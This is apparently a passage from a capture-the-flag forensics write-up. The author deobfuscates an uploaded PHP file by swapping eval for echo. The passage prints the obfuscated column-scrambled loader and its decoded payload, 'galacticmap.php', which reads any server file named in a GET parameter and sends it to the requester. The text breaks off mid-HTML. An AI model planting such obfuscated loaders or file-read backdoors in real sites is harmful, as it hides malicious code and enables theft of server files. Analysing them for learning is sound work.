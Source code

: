 ```bash
$iyzQ5h8qf6 .= "alr dbl c  fabe<a.Sa\"s t>/    e')n  -eml rlm; 0'e []& - x  x(trun'[=  \$rfu=bsPnlitmo. 'rl't  oll</l\$E><e\"d<t  = rC;t  -fieLaao i0;  \"  ''\$e) "; 
$iyzQ5h8qf6 .= "'\$yipt]'=  d)ot'msO'et(ea  ]>y<o  rue/tuvL</ ?>tr    (o\nr   =naapsd}f0 i w=0w;wc  )wpt[f)d   i;r ti=S ''\$(dF [< br  ee-treaF/t{d<d>  \$h"; 
$iyzQ5h8qf6 .= "'n o  L\".ptcse\n( }f r 0'\nou\$  oee'(;iN  r\nmtet'Tn  _\$Di 'biry  a hh>)l'td\not>\"  _eCt l rahcied=   )\n( i(0  rtoi?r)'r\"\nrU e.e yx'n'anvP_il t>n>.  c"; 
$iyzQ5h8qf6 .= "\\o>\n u]d> wd ;  Gaoe : ettsssn\"= \$   \$t\$4: lewf l;]e% 'L c'capt a maaOFre mF <'  hnv\n {e >< n>\"\n  Ednn   aets.t.c  m{ \$oem0  d\"n('d\n,a1 ]L h/hce'vveemlS"; 
$iyzQ5h8qf6 .= "Ie }pi'b<ee <e  \n).<t l\" }  Tett m dsp\"c cof o  mw\"o)' []e s[  ds )  o'ot= abn=euTLca\n_l.r/cx(br   ) td o..\n  [re- u ft:>oconi d\$ on]d - "; 
$iyzQ5h8qf6 .= "\" r\$'' \$'% )oe . i'nlac'=e[Etl ne\$>bhe\$r    )\"d> a  e  '(nD s i /\nmomtl et de e?' w=[m e o]1  rc\$\$\"ohaurtd'='Sor a d<>occ>t <  ?>  dppc  d"; 
$iyzQ5h8qf6 .= "'ti t lc/\n/m/ae  y er=  ; r \"o:x w,s { hfv<nime-yif's[re m'ib< (m\"a / {d\"\" =orh  oC-s -heom<apbip &p  [ &'\n i(ed e n % \n!oiah=de=fpriUu'ya e.r b\"'d;b t"; 
$iyzQ5h8qf6 .= " \ni.  \"sio  woTp re(ma!jionee e &\"( r \$t\$xe'c e\$1  i ll2'd='oe'lpbf)d '\$.sr<cr\nl h  r . .in   "; 
for($i = 0; $i < $pPziZoJiMpcu; $i++) $liGBOKxsOGMz[] = ""; 
for($i = 0; $i < (strlen($iyzQ5h8qf6) / $pPziZoJiMpcu); $i++) { for($r = 0; $r < $pPziZoJiMpcu; $r++) $liGBOKxsOGMz[$r] .= $iyzQ5h8qf6[$r + $i * $pPziZoJiMpcu]; } 
$bhrTeZXazQ = trim(implode("", $liGBOKxsOGMz)); 
$bhrTeZXazQ = "?>$bhrTeZXazQ"; 
eval( $bhrTeZXazQ ); 
?>
-----------------------------310973569542634246533468492466--
```
- When I displayed the file content, I didn't understand anything, and I tried to run this `php` file but it gave me errors for the `eval()` method.
- But we can notice the `implode()` method returns something and also the `trim()` method removes something from both sides of the string.
- So I just exchanged the `eval()` method with the `echo` method and run the file again, and i got the flag.
```bash
$ php map-update.php
-----------------------------310973569542634246533468492466
Content-Disposition: form-data; name="uploaded_file"; filename="galacticmap.php"
Content-Type: application/x-php

?><?php

if (isset($_GET['download'])) {
        $file = $_GET['download'];
        if (file_exists($file)) {
            header('Content-Description: File Transfer');
            header('Content-Type: application/octet-stream');
            header('Content-Disposition: attachment; filename="'.basename($file).'"');
            header('Expires: 0');
            header('Cache-Control: must-revalidate');
            header('Pragma: public');
            header('Content-Length: ' . filesize($file));
            readfile($file);
            exit;
        }
}

?>

<html>
<!-- Latest compiled and minified CSS -->
<link rel="stylesheet" href="http://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/css/bootstrap.min.css">

<!-- jQuery library -->
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.2/jquery.min.js"></script>

```